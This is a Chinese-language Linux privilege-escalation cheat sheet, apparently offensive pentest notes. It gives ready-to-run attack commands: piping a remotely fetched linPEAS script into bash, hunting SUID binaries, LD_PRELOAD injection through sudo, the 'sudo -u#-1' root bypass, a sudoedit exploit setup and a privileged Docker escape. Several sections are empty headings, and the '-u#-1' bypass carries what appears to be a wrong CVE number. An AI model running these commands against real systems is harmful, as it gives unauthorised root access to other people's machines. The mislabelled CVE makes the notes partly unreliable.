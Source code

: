 # Linux 权限提升

<https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS>

从内存中运行 `linPEAS`

```bash
curl 172.16.1.30/linpeas.sh | bash
```

## 内核漏洞提权

<https://github.com/The-Z-Labs/linux-exploit-suggester>

### 脏牛

## SUID提权

```bash
find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

## Sudo 提权

### LD_PRELOAD注入

LD_PRELOAD（也称为预加载）是 Linux 动态链接器中的一个强大且高级的功能，它允许用户在进程开始执行之前，将共享对象文件注入（预加载）到该进程的地址空间中。

作为攻击者，我们可以利用这一功能，将恶意的预加载库注入到我们可以用 sudo 权限运行的任何二进制文件中。

```bash
gcc -fPIC -shared -nostartfiles inject.c -o inject.so
```

sudo LD_PRELOAD=/home/cain/inject.so /usr/sbin/apache2

<https://forum.butian.net/share/1493>

### sudo <= 1.8.27（CVE-2019-14897）

```bash
sudo -V
```

当我们传递一个 UID 为 -1 时，sudo 会感到困惑。

因为 UID -1 并不存在，该程序会自动使用下一个存在的 UID，即“0”或最终的 root。

```bash
sudo -u#-1 /bin/bash
```

### 1.8.0 <= sudo <= 1.9.12p1（CVE-2023-22809）

Sudo 中的 sudoedit 对处理用户提供的环境变量（如 SUDO_EDITOR、VISUAL 和 EDITOR）中传递的额外参数存在缺陷。当用户指定的编辑器包含绕过 sudoers 策略的“–”参数时，拥有 sudoedit 访问权限的本地攻击者可通过将任意条目附加到要处理的文件列表中，最终在目标系统上实现权限提升（由普通用户到超级用户，即"root"）。

```
user ALL=(ALL:ALL) NOPASSWD: sudoedit /etc/test
```

### 1.9.14 <= sudo <= 1.9.17 chroot本地提权漏洞（CVE-2025-32463）

1.9.14 <= sudo <= 1.9.17

<https://forum.butian.net/article/766>

<https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/tree/main>

## 定时任务提权

## Docker 提权

特权容器、挂载宿主机目录

```bash
docker run --rm --privileged ubuntu /bin/bash
```

<https://forum.butian.net/share/2638>

## 参考资料

- <https://gtfobins.github.io/>
- <https://juggernaut-sec.com/sudo-part-1-lpe/>
- <https://juggernaut-sec.com/sudo-part-2-lpe/>
